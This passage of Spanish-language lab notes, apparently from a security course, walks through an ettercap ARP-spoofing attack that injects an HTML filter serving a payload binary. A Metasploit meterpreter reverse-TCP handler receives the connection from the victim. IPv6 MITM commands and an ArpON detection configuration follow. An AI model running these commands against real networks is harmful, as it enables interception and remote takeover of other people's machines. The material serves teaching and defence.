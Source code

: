 3. Se inyecta el filtro
```bash
root@debian:/home/lsi$ etterfilter html.filter -o html.ef
root@debian:/home/lsi$ mv meta.exe /var/www/html
root@debian:/home/lsi$ ettercap -Tq -i ens33 -F html.ef -M arp:remote /10.11.48.70// /10.11.48.1//
 
```

4. El atacante ejecuta::
```bash
root@debian:/home/lsi$ msfconsole
> use exploit/multi/handler
> set payload linux/x64/meterpreter_reverse_tcp
2> set lhost 10.11.48.69
> set lport 2222
> exploit 
```
5. Desde la maquina de la víctima:

```bash
root@debian:/home/lsi$ lynx www.google.com
root@debian:/home/lsi$ chmod u+x ./meta.exe
root@debian:/home/lsi$ ./meta.exe
```

## Apartado H----- COMPROBAR

Haga un MITM en IPv6 y visualice la paquetería.

```bash
root@debian:/home/lsi$ atk6-alive ens33
root@debian:/home/lsi$ atk6-parasite6 ens33
```
# Apartado I

Pruebe alguna herramienta y técnica de detección del sniffing (preferiblemente arpon).

- Vaciar arp: `ip -s -s neigh flush all`

```bash
root@debian:/etc$ cat arpon.conf 
#
# ArpON configuration file.
# See the arpon(8) man page for details.
# Static entries matching the eth0 network interface:
#
# First static entry:
#192.168.1.1     58:ac:78:10:b9:77
# Second static entry:
#192.168.1.3     d4:be:d9:fe:8b:45
# Third static entry:
#192.168.1.4     90:94:e4:bb:1c:10
#
# Static entries matching the eth1 network interface:
#
# First static entry:
#10.0.1.1        58:ac:78:88:1a:bb
# Second static entry:
#10.0.10.1       90:94:e4:7e:f4:59

# Router:
10.11.48.1	dc:08:56:10:84:b9

# Compañero: 
10.11.48.70	00:50:56:97:6d:5c
```